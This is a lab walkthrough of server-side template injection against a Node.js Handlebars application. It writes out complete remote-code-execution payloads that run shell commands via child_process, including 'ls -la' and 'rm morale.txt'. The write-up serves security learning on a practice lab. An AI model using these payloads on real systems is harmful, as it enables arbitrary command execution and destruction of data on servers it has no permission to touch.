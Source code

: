 ### Server side template injection (SSTI)
#### Intro
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.<br>
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. 
#### Lab
<i>Please note that my Lab ID will change during the explanation</i><br>
To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

So let's try to find an injection point, viewing the details of the first item we can see that the message query string parameter is reflected into the page:
<br>![img](./img/72.png)<br>
We can eventually try to test for XSS, but as we can see it is not vulnerable (at least not to a simple attack)
-- 74 --
anyway knowing that this is not the aim of the lab, we can move forward to test for a simple SSTI payload:
```
{{7*7}}
```
Then we get an error response that indicates that the application could be vulnerable, here we get two interesting information: A module called <b>handlebars</b> is used and the coding language seems to be <b>Node.js</b>. 
-- 73 --
Since I have a very little knowledge about Node.js and nothing about Handlebars I have no idea how to proceed further 🤨. Googling for 'ssti handlebars node.js' returned some interesting results, among all I found this one: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html<br>
Telling the truth I had problem to clearly understand what <b>Mahmoud Gamal</b> actually did 😬, so I had to study quite a bit the handlebars library and Node.js.
So I ended up to code the following payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('pwd');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Here the real exploit is the instruction:<br><b>return require('child_process').exec('id');</b><br>
That is the way to execute shell command in Node.js: https://nodejs.org/api/child_process.html<br>
The problem with this payload is that we don't get the command ouptut into the web page, since the exec method is asynchronous and we need and handler to return the command output:
-- 75 --
I struggled quite a lot to find a way to print the output command into the response, finally I discovered that I can use the <b>execSync</b> method to execute the command synchronous, so I modified the payload as follows:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
This time we get the output printed into the response 😃
-- 76 --
To delete the morale.txt file just change the command string as follows:<br>
<b>return require('child_process').execSync('rm morale.txt').toString();<b><br>
we can double check that the file has been deleted resending the previous payload to list the files.


#### Reference
+ https://portswigger.net/web-security/server-side-template-injection
+ https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
+ http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
